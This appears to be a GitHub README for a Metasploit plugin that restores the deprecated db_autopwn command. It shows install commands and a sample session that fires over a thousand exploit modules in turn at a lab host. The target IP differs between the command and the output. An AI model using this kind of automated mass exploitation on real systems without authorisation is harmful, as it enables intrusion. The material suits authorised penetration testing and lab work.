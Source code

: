 # metasploit-db_autopwn

metasploit plugin for easy exploit & vulnerability attack.br>
But, the db_autopwn command is removed from official distribution.<br>

## Install
move dB_autopwn.rb file into metasploit plugin directory after clone this repo
git clone https://github.com/hahwul/metasploit-db_autopwn

or 

download db_autopwn.rb file in metasploit plugin directory
wget https://raw.githubusercontent.com/hahwul/metasploit-db_autopwn/master/db_autopwn.rb

## Usage

    #> msfconsole
    MSF > load db_autopwn
    [*] Successfully loaded plugin: db_autopwn
    
    MSF > db_autopwn -p -R great -e -q 192.168.56.101 
    [-] The db_autopwn command is DEPRECATED
    [-] See http://r-7.co/xY65Zr instead
    [*] (1/1301 [0 sessions]): Launching exploit/bsdi/softcart/mercantec_softcart against 192.168.56.44:80...
    [*] (2/1301 [0 sessions]): Launching exploit/freebsd/http/watchguard_cmd_exec against 192.168.56.44:80...
    [*] (3/1301 [0 sessions]): Launching exploit/linux/antivirus/escan_password_exec against 192.168.56.44:80...
    [*] (4/1301 [0 sessions]): Launching exploit/linux/http/accellion_fta_getstatus_oauth against 192.168.56.44:80...
    [*] (5/1301 [0 sessions]): Launching exploit/linux/http/advantech_switch_bash_env_exec against 192.168.56.44:80...



